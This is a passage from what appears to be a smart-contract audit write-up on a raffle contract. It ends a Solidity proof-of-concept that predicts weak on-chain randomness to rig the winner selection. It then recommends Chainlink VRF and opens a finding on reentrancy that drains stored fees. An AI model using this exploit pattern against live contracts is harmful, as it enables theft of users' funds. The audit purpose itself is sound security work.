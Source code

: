 ```
                            address(this),
                            block.timestamp,
                            block.difficulty
                        )
                    )
                ) %
                toAdd;

            if (winnerIndex == playersLength) break;
            ++toAdd;
        }
        uint256 toLoop = toAdd - playersLength;

        address[] memory playersToAdd = new address[](toLoop);
        playersToAdd[0] = address(this);

        for (uint256 i = 1; i < toLoop; ++i) {
            playersToAdd[i] = address(i + 100);
        }

        uint256 valueToSend = 1e18 * toLoop;
        raffle.enterRaffle{value: valueToSend}(playersToAdd);
        raffle.selectWinner();
    }

    receive() external payable {}

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) public returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

## Recommendations

Use Chainlink's VRF to generate a random number to select the winner. Patrick will be proud.

# Reentrancy via address.call()

## Summary

It's possible to reenter selectWinner() function when funds are sent, thus draining any of the fees stored.

